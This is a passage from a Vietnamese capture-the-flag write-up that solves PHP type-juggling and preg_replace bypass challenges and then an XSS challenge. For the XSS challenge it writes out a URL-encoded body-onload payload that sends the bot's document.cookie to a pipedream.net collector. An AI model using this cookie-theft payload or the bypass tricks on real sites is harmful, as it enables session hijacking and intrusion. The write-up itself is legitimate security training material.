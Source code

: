 Ở flag thứ 4 này cũng như ở flag trước nhưng có thay đổi 1 chút về điều kiện, cụ thể ở đây em phải nhập 1 chuỗi có giá trị bằng 69 nhưng điều kiện nghiêm ngặt thì phải khác 69, đồng thời dữ liệu trả về có độ dài là 2 sau khi loại bỏ khoảng trắng ở đầu cuối bởi 'trim'.Ý tưởng của e là truyền vào url ?5=  giá trị là  ' 69', tức url lúc này nhận giá trị có dạng %2069 (url encode dấu cách). Lúc này, tham số được chuyền vào là dạng chuỗi nhưng là so sánh lỏng lẻo nên điều kiện đầu đúng và điều kiện thứ 2 nghiêm ngặt cũng đúng vì khác kiểu, thỏa mã $str5 == 69 && $str5 !== '69', sau đó trim đi khoảng trắng là dấu cách ta dược dữ  liệu trả về = 2, kết quả sẽ trả về true. 
url: http://47.254.251.2:8889/?5=%2069
```
Flag4: e.com/watch?v=x
```
### flag5:
Ý cuối này đùng hàm preg_replace để loại bỏ các giá trị được lưu trữ trong biến var1 (với $var1='KaCeEtCe') và rồi gán giá trị còn lại vào trong biến var2, sau đó là điều kiện kiểm tra. Em nghĩ đến việc chèn giá trị KaCeEtCe vào bên trong KaCeEtCe, kiểu như 'KaCeKaCeEtCeEtCe' hoặc 'KKaCeEtCeaCeEtCe', sau khi giá trị này đi qua hàm preg_replace thì nó sẽ loại bỏ giá trị 'KaCeEtCe' bên trong và trả về giá trị mà em cần là 'KaCeEtCe' đúng với yêu cầu. 
url: http://47.254.251.2:8889/?6=KaCeKaCeEtCeEtCe
```
Và em có flag cuối cùng: QtC3F8fH6g}
```
## Vậy flag cuối cùng của bài sẽ là: 
>KCSC{B0_u_Bu_S4C_8usssssss_https://www.youtube.com/watch?v=xQtC3F8fH6g}


## Đề 2: Hi hi hi
```
url: http://146.190.115.228:20109/
```
Đập vào mắt chúng ta là 1 thanh nhập, bài này ở thanh nhập em sẽ tấn công xss, còn chỗ 'đây' để gửi link chữa mã độc cho bên phía server, nếu đúng con bot sẽ trả về cho mình flag , trước hết em thử 1 vài payload để xem trang web đang filter những gì. 
+ Thử payload cơ bản: <script>alert(1)</script>, có thể thấy nội dung truyền đang bị chứa trong thẻ div, vì vậy ta có thể dùng 1 vài thẻ khác.

 ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xss4.jpg)

+ Ở đây em dùng thử thẻ body: <body onload=alert(1)> thì trang web đã báo alert, vậy có thể tấn công tiếp từ đây.
  
  ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xssa.jpg)
  
+ ý tưởng tiếp theo là em sẽ truyền mã độc để lấy cookie từ phía con bot.
 Em viết ý tưởng như sau:  ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/oke.jpg)
 Ở đây em dùng pipedream để tạo đường dẫn chuyển trang của mình.
 Và trang đã chuyển hướng thành công và trả về cookie.
 Em vào link trang thứ 2 gửi url cho con bot: http://127.0.0.1:13337/?message=http://146.190.115.228:20109/?message=%3Cbody+onload%3D%22window.location%3D%27https%3A%2F%2Feok9n2xgj1cunb2.m.pipedream.net%3Fc%3D%27.concat%28document.cookie%29%22+%2F%3E
 
  Kết quả flag được trả về: 
  